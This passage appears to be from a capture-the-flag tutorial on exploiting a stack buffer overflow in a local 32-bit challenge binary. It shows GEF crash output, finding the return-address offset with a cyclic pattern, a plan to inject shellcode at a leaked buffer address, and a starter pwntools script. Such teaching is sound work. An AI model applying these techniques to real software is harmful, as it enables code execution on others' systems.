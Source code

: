 ```
0xffffcd68│+0x0008: "daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpa[...]"
0xffffcd6c│+0x000c: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
0xffffcd70│+0x0010: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcd74│+0x0014: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffcd78│+0x0018: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffcd7c│+0x001c: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6261617a
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x6261617a in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x6261617a in ?? ()
gef➤  
gef➤  
```
You can see that our program crashed due to a segmentation fault, which means that it tried to access invalid memory . This happened because we overwrote the stack pointer with some garbage which didn't point to any valid memory. We can see this value with `x/wx $eip`.
```
gef➤  x/wx $eip
0x6261617a:	Cannot access memory at address 0x6261617a
```
This `0x6261617a` is the value whose offset we need from our pattern. We can again us the cyclic utility for this:
```
➜  cyclic -l 0x6261617a          
100
```
Thus the offset actually is `100`. This is not 96 as we predicted because there is also a `push ebx` instruction in the disassemby of the function, which makes the space for the extra 4 bytes. Hence, one should take note that dynamic analysis is very important for exploitation.
Now we are ready , we can fill the buffer with shellcode, overwrite enough to reach the return address and overwrite it with the address we receive. However, we can't use a normal techinique like piping for payloads, since this address of the buffer changes on every execution. We need a way to interact with the binary dynamically. This is where pwntools really starts to seal the deal. It can do all that and so much more.

A simple script to just run the program normally and interact with it through the terminal would be:
```py
from pwn import *

p = process('./chall')

p.interactive()
```
We create a simple process object and interact with it(intuitive isn't it).On running this:
```
➜  python solve.py   
[+] Starting local process './chall': pid 10416
[*] Switching to interactive mode
What's this:0xffd252b8?
$ asdf
Hello, World!
[*] Process './chall' stopped with exit code 0 (pid 10416)
[*] Got EOF while reading in interactive
```
The $ sign is next to anywhere we enter input. We can use the `p.recv()` to receive input into a python varible: